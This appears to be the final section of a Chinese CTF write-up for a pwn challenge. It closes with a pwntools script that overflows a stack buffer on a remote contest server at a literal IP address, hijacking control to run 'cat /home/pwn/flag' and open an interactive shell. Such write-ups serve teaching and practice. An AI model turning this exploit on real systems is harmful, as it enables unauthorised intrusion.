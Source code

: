 ![image-20200209051644873](%E5%8D%97%E9%82%AEcgpwna.assets/image-20200209051644873.png)

竟然直接getshell了

那么就是打远程了。

### 10、写出最终版本exp

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=remote('182.254.217.142',10001)
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('cat /home/pwn/flag'+'\x00'+'a'*(57-18-4))
sleep(1)
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804852a)+p32(0x804a080))
k.interactive()
```
